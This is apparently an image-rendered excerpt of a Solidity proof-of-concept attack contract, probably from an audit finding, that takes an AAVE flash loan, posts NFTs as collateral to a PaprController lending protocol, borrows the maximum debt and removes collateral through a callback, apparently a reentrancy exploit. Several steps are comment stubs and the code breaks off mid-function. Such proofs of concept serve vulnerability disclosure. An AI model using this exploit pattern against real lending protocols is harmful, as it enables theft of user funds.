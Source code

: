 ```

    function attack() public {
        ///// STEP1: taking flash loan
        iAAVE.flashLoanSimple(address(this), USDC, 10 * 50000 * 10**6, "", 0);
    }

    function executeOperation(
        address[] calldata assets,
        uint256[] calldata amounts,
        uint256[] calldata premiums,
        address initiator,
        bytes calldata params
    ) external returns (bool) {
        ///// STEP2: buying 10 NFTs

        // Buy 10 NFTs that each worths almost 50k
        // Assume the ids are from 1 to 10

        ///// STEP3: adding the NFTs as collateral
        for (uint256 i = 0; i < 10; ++i) {
            collaterals.push(Collateral({addr: nftCollectionAddress, id: i}));
        }
        iPaprController.addCollateral(collaterals);

        ///// STEP4: borrowing as much as possible
        uint256 oraclePrice = iPaprController.underwritePriceForCollateral(
            nftCollectionAddress,
            PriceKind.LOWER,
            oracleInfo
        );

        uint256 maxDebt = iPaprController.maxDebt(10 * oraclePrice);

        iPaprController.increaseDebt(
            address(this),
            nftCollectionAddress,
            maxDebt,
            oracleInfo
        );

        ///// STEP5: removing the NFT with id 1
        Collateral[] memory collateralArr = new Collateral[](1);
        collateralArr[0] = Collateral({addr: nftCollectionAddress, id: 1});
        iPaprController.removeCollateral(
            address(this),
            collateralArr,
            oracleInfo
        );

        ///// STEP16: selling 10 NFTs and repaying the flash loan

        // Selling the 10 NFTs
        // Repaying the flash loan
    }

    function onERC721Received(
        address from,
        address,
        uint256 _id,
        bytes calldata data
    ) external returns (bytes4) {
        numOfCallback++;
        if (numOfCallback < 9) {
```